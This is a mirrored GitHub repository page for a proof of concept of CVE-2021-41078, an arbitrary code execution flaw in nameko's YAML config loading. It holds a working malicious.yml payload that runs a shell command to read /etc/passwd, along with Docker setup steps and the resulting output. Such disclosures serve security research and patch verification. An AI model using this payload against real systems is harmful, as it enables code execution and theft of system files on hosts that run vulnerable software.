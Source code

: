 # CVE-2021-41078

nameko Arbitrary code execution due to YAML deserialization

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/s-index](https://github.com/s-index) |
| Url      | [https://github.com/s-index/CVE-2021-41078](https://github.com/s-index/CVE-2021-41078)                                               |
| Stars    | 0                                                          |
| License  | MIT License                                                        |

<details>

<summary>Topic / Tags</summary>

* code-execution* cve-2021-41078* nameko* python* unsafe-yaml-load

</details>

## Readme

# CVE-2021-41078
nameko Arbitrary code execution due to YAML deserialization

## NVD Description

Nameko through 2.13.0 can be tricked into performing arbitrary code execution when deserializing the config file.

## Demo

![cve-2021-41078](https://user-images.githubusercontent.com/56715563/187062984-fb0c5149-92a6-4440-8731-6260465bfc2a.gif)

## Set Up

1. Build an image from a Dockerfile

```
docker build -t cve-2021-41078 .
```

2. Run python main.py in a new container

```
docker run -it --rm cve-2021-41078
```

output /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
-- snip --
```

![output-image](https://user-images.githubusercontent.com/56715563/187062786-f420ceb8-e8be-42ee-989e-b657ede803a1.png)

## PoC Payload

malicious.yml
```
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
```

## Reference

- https://github.com/nameko/nameko/security/advisories/GHSA-6p52-jr3q-c94g



## Get the content

```
git clone https://github.com/s-index/CVE-2021-41078
cd CVE-2021-41078
```

{% embed url="https://github.com/s-index/CVE-2021-41078" %}

<figure><img src="https://avatars.githubusercontent.com/u/56715563?v=4" alt=""><figcaption><p>s-index</p></figcaption></figure>
